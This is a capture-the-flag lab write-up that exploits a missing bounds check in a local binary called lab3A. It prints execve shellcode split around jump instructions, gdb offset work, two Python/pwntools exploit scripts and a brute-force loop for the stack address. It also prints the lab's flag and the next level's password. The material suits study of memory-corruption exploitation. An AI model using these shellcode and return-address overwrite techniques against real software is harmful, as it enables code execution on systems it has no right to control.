 ## Lab3A

`wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd`

After looking at the source we see that we can store unsigned ints to any index even more than the size of the data buffer as there is no bounds check.
Only 2 conditions need to be satisfied to store the data. 
1. Index shouldn't be a multiple of 3
2. Most significant byte of number should not be 0xb7

This means we have 2*4 = 8 bytes of continuous space to put our shellcode. After that we will need to jump 4 bytes.

Shellcode - 
```
http://shell-storm.org/shellcode/files/shellcode-811.php

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80

```
instruction to jump 4 bytes = `eb 04` (`jmp 0x4`)
Splitting shelllcode in 8 byte chunks

```
31 c0 50 90 90 90 eb 04
68 2f 2f 73 68 90 eb 04
68 2f 62 69 6e 90 eb 04
89 e3 89 c1 89 c2 eb 04
b0 0b cd 80 31 c0 eb 04
40 cd 80 90 90 90 90 90
```
Shellcode as 4 byte unsigned ints. 
```
0x9050c031
0x04eb9090
0x732f2f68
0x04eb9068
0x69622f68
0x04eb906e
0xc189e389
0x04ebc289
0x80cd0bb0
0x90909090
```

Now we know how to place the shellcode. We need to jump to it.
 
```
$ disas main

   0x08048b64 <+338>:   mov    DWORD PTR [esp],eax
   0x08048b67 <+341>:   call   0x8048917 <store_number>
   0x08048b6c <+346>:   mov    DWORD PTR [esp+0x1bc],eax
   0x08048b73 <+353>:   jmp    0x8048bd2 <main+448>
   0x08048b75 <+355>:   mov    DWORD PTR [esp+0x8],0x4
   0x08048b7d <+363>:   mov    DWORD PTR [esp+0x4],0x8048f63
   0x08048b85 <+371>:   lea    eax,[esp+0x1a8]
   0x08048b8c <+378>:   mov    DWORD PTR [esp],eax

$ b *0x08048b67 
```
After hitting the breakpoint we can see the address of data buffer on top of the stack as it is the argument for `store_number`  
address = `0xbffff548`

Next we put a breakpoint on ret instruction in main. After hitting the breakpoint we can see the saved eip address on stack.  
address = `0xbffff6fc`

```
gdb-peda$ p 0xbffff6fc - 0xbffff548
$1 = 0x1b4
```
Difference is of 436 bytes. Therefore index in data buf = 436/4 = 109

Creating the exploit script

```
shellcode = [
    0x90909090, 0x90909090, 0x90909090, 0x90909090,
    0x9050c031, 0x04eb9090, 0x732f2f68, 0x04eb9068,
    0x69622f68, 0x04eb906e, 0xc189e389, 0x04ebc289,
    0x80cd0bb0, 0x90909090
]

input = ""
k=0
for i,j in enumerate(shellcode):
    if (i+1+k)%3 == 0:
        k+=1
    input += "store\n" + st**r(j) + "\n" + str(i+1+k) + "\n"

input += "store\n" + str(0xbffff548) + "\n" + "109\n"
input += "quit\n"

print(input) 
```
```
$ python /tmp/exp.py > /tmp/inp
$ ./lab3A < /tmp/inp
```
Due to env the address of shellcode in gdb did not match when running the program without gdb. After hit and trial for sometime I gave up and wrote the following script.

```
import sys
from pwn import *

shellcode = [
    0x90909090, 0x90909090, 0x90909090, 0x90909090,
    0x9050c031, 0x04eb9090, 0x732f2f68, 0x04eb9068,
    0x69622f68, 0x04eb906e, 0xc189e389, 0x04ebc289,
    0x80cd0bb0, 0x90909090
]


def send_inp(num, pos):
    p.sendline("store")
    p.recv(100)
    p.sendline(num)
    p.recv(100)
    p.sendline(pos)
    print(p.recv(100))

p = process("./lab3A")
p.recv(1000)

k=0
for i,j in enumerate(shellcode):
    if (i+1+k)%3 == 0:
        k+=1
    send_inp(str(j), str(i+1+k))

shelladdr = int(sys.argv[1])
send_inp(str(shelladdr), "109")
p.sendline("quit")
p.interactive()
```

And performed a brute force with a bash loop  
`for (( c=0xbffff500; c<=0xbffff700; c+=4)); do python /tmp/exp.py $c;done`

I found the shelladdr to be  `0xbffff524`

```
$ cat /home/lab3end/.pass
sw00g1ty_sw4p_h0w_ab0ut_d3m_h0ps
```
